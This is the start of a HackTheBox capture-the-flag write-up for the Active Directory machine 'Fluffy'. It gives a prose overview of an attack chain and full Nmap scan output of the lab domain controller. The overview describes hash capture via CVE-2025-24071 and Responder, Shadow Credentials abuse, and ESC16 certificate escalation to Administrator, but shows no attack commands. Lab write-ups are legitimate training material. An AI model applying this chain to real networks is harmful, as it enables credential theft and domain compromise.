







# Fluffy

> Platform: HackTheBox
>
> Created by: [ruycr4ft](https://app.hackthebox.com/users/1253217) & [kavigihan](https://app.hackthebox.com/users/389926)
>
> Difficulty: Easy
>
> Status: Season 8.5 Machine


## 🔗 Overview

_[Fluffy](https://app.hackthebox.com/machines/Fluffy) starts in an Active Directory domain (<code>DC01.fluffy.htb</code>). With the creds for <code>j.fleischman</code>, we find an IT share containing a hint about recent vulnerabilities. Using **CVE-2025-24071** with Responder, we capture and crack an NTLMv2 hash for <code>p.agila</code>, giving us our first foothold._

_BloodHound shows <code>p.agila</code> can control the Service Accounts group. Abusing this, we perform a Shadow Credentials attack on <code>winrm_svc</code>, extract its hash with Certipy, and gain a shell via Evil-WinRM._

_For privilege escalation, <code>winrm_svc</code> has rights over <code>ca_svc</code> (a Cert Publishers member). The CA is vulnerable to **ESC16**, letting us request a certificate as **Administrator**. With that, we recover the Administrator hash and finish the box as root._


## 🔍 Enumeration

First of all, we will begin with the Nmap. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ nmap -sVSC 10.10.11.69 -T4 -Pn -n -vvv -oA fluffyscan
Nmap scan report for 10.10.11.69
Nmap scan report for 10.10.11.69
Host is up, received user-set (0.037s latency).
Scanned at 2025-09-09 15:50:36 +08 for 101s
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-09-09 14:25:22Z)
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-09-09T14:26:42+00:00; +6h34m25s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
| SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
| -----BEGIN CERTIFICATE-----
| MIIGJzCCBQ+gAwIBAgITUAAAAAJKRwEaLBjVaAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGZmx1ZmZ5
| MRcwFQYDVQQDEw5mbHVmZnktREMwMS1DQTAeFw0yNTA0MTcxNjA0MTdaFw0yNjA0
| MTcxNjA0MTdaMBoxGDAWBgNVBAMTD0RDMDEuZmx1ZmZ5Lmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAOFkXHPh6Bv/Ejx+B3dfWbqtAmtOZY7gT6XO
| KD/ljfOwRrRuvKhf6b4Qam7mZ08lU7Z9etWUIGW27NNoK5qwMnXzw/sYDgGMNVn4
| bb/2kjQES+HFs0Hzd+s/BBcSSp1BnAgjbBDcW/SXelcyOeDmkDKTHS7gKR9zEvK3
| ozNNc9nFPj8GUYXYrEbImIrisUu83blL/1FERqAFbgGwKP5G/YtX8BgwO7iJIqoa
| 8bQHdMuugURvQptI+7YX7iwDFzMPo4sWfueINF49SZ9MwbOFVHHwSlclyvBiKGg8
| EmXJWD6q7H04xPcBdmDtbWQIGSsHiAj3EELcHbLh8cvk419RD5ECAwEAAaOCAzgw
| ggM0MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMlh3+130Pna
| 0Hgb9AX2e8Uhyr0FMB8GA1UdIwQYMBaAFLZo6VUJI0gwnx+vL8f7rAgMKn0RMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPWZsdWZmeS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049Zmx1ZmZ5LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBB0co4Ym5z7RbSI
| 5tsj1jN/gg9EQzAxLmZsdWZmeS5odGIwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEE
| AYI3GQIBoC8ELVMtMS01LTIxLTQ5NzU1MDc2OC0yNzk3NzE2MjQ4LTI2MjcwNjQ1
| NzctMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAWjL2YkginWECPSm1EZyi8lPQisMm
| VNF2Ab2I8w/neK2EiXtN+3Z7W5xMZ20mC72lMaj8dLNN/xpJ9WIvQWrjXTO4NC2o
| 53OoRmAJdExwliBfAdKY0bc3GaKSLogT209lxqt+kO0fM2BpYnlP+N3R8mVEX2Fk
| 1WXCOK7M8oQrbaTPGtrDesMYrd7FQNTbZUCkunFRf85g/ZCAjshXrA3ERi32pEET
| eV9dUA0b1o+EkjChv+b1Eyt5unH3RDXpA9uvgpTJSFg1XZucmEbcdICBV6VshMJc
| 9r5Zuo/LdOGg/tqrZV8cNR/AusGMNslltUAYtK3HyjETE/REiQgwS9mBbQ==
|_-----END CERTIFICATE-----
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-09-09T14:26:42+00:00; +6h34m25s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
| SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
| -----BEGIN CERTIFICATE-----
| MIIGJzCCBQ+gAwIBAgITUAAAAAJKRwEaLBjVaAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGZmx1ZmZ5
| MRcwFQYDVQQDEw5mbHVmZnktREMwMS1DQTAeFw0yNTA0MTcxNjA0MTdaFw0yNjA0
| MTcxNjA0MTdaMBoxGDAWBgNVBAMTD0RDMDEuZmx1ZmZ5Lmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAOFkXHPh6Bv/Ejx+B3dfWbqtAmtOZY7gT6XO
| KD/ljfOwRrRuvKhf6b4Qam7mZ08lU7Z9etWUIGW27NNoK5qwMnXzw/sYDgGMNVn4
| bb/2kjQES+HFs0Hzd+s/BBcSSp1BnAgjbBDcW/SXelcyOeDmkDKTHS7gKR9zEvK3
| ozNNc9nFPj8GUYXYrEbImIrisUu83blL/1FERqAFbgGwKP5G/YtX8BgwO7iJIqoa
| 8bQHdMuugURvQptI+7YX7iwDFzMPo4sWfueINF49SZ9MwbOFVHHwSlclyvBiKGg8
| EmXJWD6q7H04xPcBdmDtbWQIGSsHiAj3EELcHbLh8cvk419RD5ECAwEAAaOCAzgw
| ggM0MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMlh3+130Pna
| 0Hgb9AX2e8Uhyr0FMB8GA1UdIwQYMBaAFLZo6VUJI0gwnx+vL8f7rAgMKn0RMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPWZsdWZmeS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049Zmx1ZmZ5LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBB0co4Ym5z7RbSI
| 5tsj1jN/gg9EQzAxLmZsdWZmeS5odGIwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEE
| AYI3GQIBoC8ELVMtMS01LTIxLTQ5NzU1MDc2OC0yNzk3NzE2MjQ4LTI2MjcwNjQ1
| NzctMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAWjL2YkginWECPSm1EZyi8lPQisMm
| VNF2Ab2I8w/neK2EiXtN+3Z7W5xMZ20mC72lMaj8dLNN/xpJ9WIvQWrjXTO4NC2o
| 53OoRmAJdExwliBfAdKY0bc3GaKSLogT209lxqt+kO0fM2BpYnlP+N3R8mVEX2Fk
| 1WXCOK7M8oQrbaTPGtrDesMYrd7FQNTbZUCkunFRf85g/ZCAjshXrA3ERi32pEET
| eV9dUA0b1o+EkjChv+b1Eyt5unH3RDXpA9uvgpTJSFg1XZucmEbcdICBV6VshMJc
| 9r5Zuo/LdOGg/tqrZV8cNR/AusGMNslltUAYtK3HyjETE/REiQgwS9mBbQ==
|_-----END CERTIFICATE-----
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
| SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
| -----BEGIN CERTIFICATE-----
| MIIGJzCCBQ+gAwIBAgITUAAAAAJKRwEaLBjVaAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGZmx1ZmZ5
| MRcwFQYDVQQDEw5mbHVmZnktREMwMS1DQTAeFw0yNTA0MTcxNjA0MTdaFw0yNjA0
| MTcxNjA0MTdaMBoxGDAWBgNVBAMTD0RDMDEuZmx1ZmZ5Lmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAOFkXHPh6Bv/Ejx+B3dfWbqtAmtOZY7gT6XO
| KD/ljfOwRrRuvKhf6b4Qam7mZ08lU7Z9etWUIGW27NNoK5qwMnXzw/sYDgGMNVn4
| bb/2kjQES+HFs0Hzd+s/BBcSSp1BnAgjbBDcW/SXelcyOeDmkDKTHS7gKR9zEvK3
| ozNNc9nFPj8GUYXYrEbImIrisUu83blL/1FERqAFbgGwKP5G/YtX8BgwO7iJIqoa
| 8bQHdMuugURvQptI+7YX7iwDFzMPo4sWfueINF49SZ9MwbOFVHHwSlclyvBiKGg8
| EmXJWD6q7H04xPcBdmDtbWQIGSsHiAj3EELcHbLh8cvk419RD5ECAwEAAaOCAzgw
| ggM0MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMlh3+130Pna
| 0Hgb9AX2e8Uhyr0FMB8GA1UdIwQYMBaAFLZo6VUJI0gwnx+vL8f7rAgMKn0RMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPWZsdWZmeS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049Zmx1ZmZ5LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBB0co4Ym5z7RbSI
| 5tsj1jN/gg9EQzAxLmZsdWZmeS5odGIwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEE
| AYI3GQIBoC8ELVMtMS01LTIxLTQ5NzU1MDc2OC0yNzk3NzE2MjQ4LTI2MjcwNjQ1
| NzctMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAWjL2YkginWECPSm1EZyi8lPQisMm
| VNF2Ab2I8w/neK2EiXtN+3Z7W5xMZ20mC72lMaj8dLNN/xpJ9WIvQWrjXTO4NC2o
| 53OoRmAJdExwliBfAdKY0bc3GaKSLogT209lxqt+kO0fM2BpYnlP+N3R8mVEX2Fk
| 1WXCOK7M8oQrbaTPGtrDesMYrd7FQNTbZUCkunFRf85g/ZCAjshXrA3ERi32pEET
| eV9dUA0b1o+EkjChv+b1Eyt5unH3RDXpA9uvgpTJSFg1XZucmEbcdICBV6VshMJc
| 9r5Zuo/LdOGg/tqrZV8cNR/AusGMNslltUAYtK3HyjETE/REiQgwS9mBbQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2025-09-09T14:26:42+00:00; +6h34m25s from scanner time.
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-09-09T14:26:42+00:00; +6h34m25s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
| SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
| -----BEGIN CERTIFICATE-----
| MIIGJzCCBQ+gAwIBAgITUAAAAAJKRwEaLBjVaAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGZmx1ZmZ5
| MRcwFQYDVQQDEw5mbHVmZnktREMwMS1DQTAeFw0yNTA0MTcxNjA0MTdaFw0yNjA0
| MTcxNjA0MTdaMBoxGDAWBgNVBAMTD0RDMDEuZmx1ZmZ5Lmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAOFkXHPh6Bv/Ejx+B3dfWbqtAmtOZY7gT6XO
| KD/ljfOwRrRuvKhf6b4Qam7mZ08lU7Z9etWUIGW27NNoK5qwMnXzw/sYDgGMNVn4
| bb/2kjQES+HFs0Hzd+s/BBcSSp1BnAgjbBDcW/SXelcyOeDmkDKTHS7gKR9zEvK3
| ozNNc9nFPj8GUYXYrEbImIrisUu83blL/1FERqAFbgGwKP5G/YtX8BgwO7iJIqoa
| 8bQHdMuugURvQptI+7YX7iwDFzMPo4sWfueINF49SZ9MwbOFVHHwSlclyvBiKGg8
| EmXJWD6q7H04xPcBdmDtbWQIGSsHiAj3EELcHbLh8cvk419RD5ECAwEAAaOCAzgw
| ggM0MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMlh3+130Pna
| 0Hgb9AX2e8Uhyr0FMB8GA1UdIwQYMBaAFLZo6VUJI0gwnx+vL8f7rAgMKn0RMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPWZsdWZmeS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049Zmx1ZmZ5LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBB0co4Ym5z7RbSI
| 5tsj1jN/gg9EQzAxLmZsdWZmeS5odGIwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEE
| AYI3GQIBoC8ELVMtMS01LTIxLTQ5NzU1MDc2OC0yNzk3NzE2MjQ4LTI2MjcwNjQ1
| NzctMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAWjL2YkginWECPSm1EZyi8lPQisMm
| VNF2Ab2I8w/neK2EiXtN+3Z7W5xMZ20mC72lMaj8dLNN/xpJ9WIvQWrjXTO4NC2o
| 53OoRmAJdExwliBfAdKY0bc3GaKSLogT209lxqt+kO0fM2BpYnlP+N3R8mVEX2Fk
| 1WXCOK7M8oQrbaTPGtrDesMYrd7FQNTbZUCkunFRf85g/ZCAjshXrA3ERi32pEET
| eV9dUA0b1o+EkjChv+b1Eyt5unH3RDXpA9uvgpTJSFg1XZucmEbcdICBV6VshMJc
| 9r5Zuo/LdOGg/tqrZV8cNR/AusGMNslltUAYtK3HyjETE/REiQgwS9mBbQ==
|_-----END CERTIFICATE-----
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-09-09T14:26:03
|_  start_date: N/A
|_clock-skew: mean: 6h34m24s, deviation: 0s, median: 6h34m24s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 53865/tcp): CLEAN (Timeout)
|   Check 2 (port 42679/tcp): CLEAN (Timeout)
|   Check 3 (port 5751/udp): CLEAN (Timeout)
